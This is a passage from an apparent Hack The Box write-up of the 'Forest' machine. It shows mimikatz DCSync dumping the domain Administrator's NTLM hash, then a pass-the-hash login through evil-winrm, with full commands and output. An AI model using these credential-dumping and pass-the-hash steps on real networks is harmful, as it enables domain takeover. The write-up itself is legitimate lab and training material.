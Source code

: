 mimikatz(powershell) # lsadump::dcsync /domain:htb.local /user:Administrator
[DC] 'htb.local' will be the domain
[DC] 'FOREST.htb.local' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 9/18/2019 10:09:08 AM
Object Security ID   : S-1-5-21-3072663084-364016917-1341370565-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 32693b11e6aa90eb43d32c72a07ceea6

PS C:\Users\yakuhito\Documents>
{% endhighlight %}

## Connecting as Administrator

After getting Administrator's NTLM hash, I got stuck again. Fortunately, one of my friends reminded me that evil-wirm can also perform pass-the-hash attacks:

{% highlight powershell %}
root@fury-battlestation:~/htb/blog/forest/evil-winrm# ruby evil-winrm.rb -i forest.htb -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ..\Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/23/2019   2:15 PM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Documents> 
{% endhighlight %}

The root proof starts with ‘f0’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/y
akuh1t0) 🙂

Until next time, hack the world.

yakuhito, over.

